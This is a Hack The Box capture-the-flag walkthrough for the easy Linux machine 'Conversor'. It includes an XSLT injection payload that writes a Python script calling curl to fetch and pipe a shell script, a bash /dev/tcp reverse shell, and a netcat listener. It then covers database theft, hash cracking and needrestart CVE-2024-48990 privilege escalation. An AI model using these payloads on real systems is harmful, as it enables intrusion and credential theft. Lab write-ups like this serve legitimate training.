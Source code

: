 ```yaml
---

# COnversor (Easy): 10.10.11.92

![Icon](Images/coversoricon.png)

---
```


## Quick Overview

a new linux machine, with easy difficulty, that put in front of us :

1. **XSLT Exploitation** → Database Access → **USER.TXT**
2. **Needrestart 3.7 Privilege Escalation** → [CVE-2024-48990 Auto Exploit](https://github.com/Serner77/CVE-2024-48990-Automatic-Exploit) → *Thanks to @Serner77* → **ROOT.TXT**

---

## USER.TXT

### NMAP Enumeration

as with every machine we start with the nmap scan, that show as a classic 22/80 ports.

![Icon](Images/nmapscan.png)

we go to conversor web page, as first sight we see XML converation via XSLT, with a small round with the discover the source code in the About page.

in the Source code we got some valuabla informations, the most imprtants are :

1. XSLT is exploitable
2. you can run python scripts in the scripts directory, you can find this info in install.md
3. the users database is in instance directory

### First Step

so first of all we will start with a reverse shell, by writing a python script with the help of xslt file, that will use curl to connect to our machine, that have aleardy a python http server prepared, to copy a reverse shell script, and lunche it to get our initial login.

so upload this XSLT File:

```XSLT
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
    xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
    xmlns:exploit="http://exslt.org/common"
    extension-element-prefixes="exploit"
    version="1.0">
<xsl:template match="/">
<exploit:document href="/var/www/conversor.htb/scripts/shell.py" method="text">
import os
os.system("curl 10.10.14.203:8000/shell.sh|sh")
</exploit:document>
</xsl:template>
</xsl:stylesheet>
```

and we prepare a python http server by using the command `python3 -m http.server`, where the reverse shell script exist:

```sh
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.203/9999 0>&1'
```

and last thing, nc listener `nc -nlvp 9999`.

and by that we get our initial access, as you can see:

![Icon](Images/xsltrevshell.png)

### DB Exploit

For the next step, we will copie the DB to our local machine so we can exploit it peacefully, so i launched a python http server in the victim machine to copy the DB:

![Icon](Images/dbdownload.png)

i open the DB with sqlite browser, and found the user fismathack with it hashed password

![Icon](Images/sqlitebrowser.png)

### Final Touch

By cracking the hash via [CrackStation](https://crackstation.net), we can login with fismathack and via SSH and capture the USER.TXT flag.

![Icon](Images/usertxt.png)

---

## ROOT.TXT

### Discover

In this part we will start with `sudo -l`, and discover that we have sudo right to needrestart 3.7.

![Icon](Images/sudol.png)

### Exploit

With a small research we found that we can privilege escal with needrestart 3.7, than correspendant to CVE-2024-48990.

And i have used the following Poc [CVE-2024-48990-Automatic-Exploit](https://github.com/Serner77/CVE-2024-48990-Automatic-Exploit)

PS: if it doesn't work, reset the machine from HTB.

![Icon](Images/privescal.png)

an as you can see it connect you with root privilege, and we can capture the ROOT.TXT flag.

![Icon](Images/roottxt.png)

---












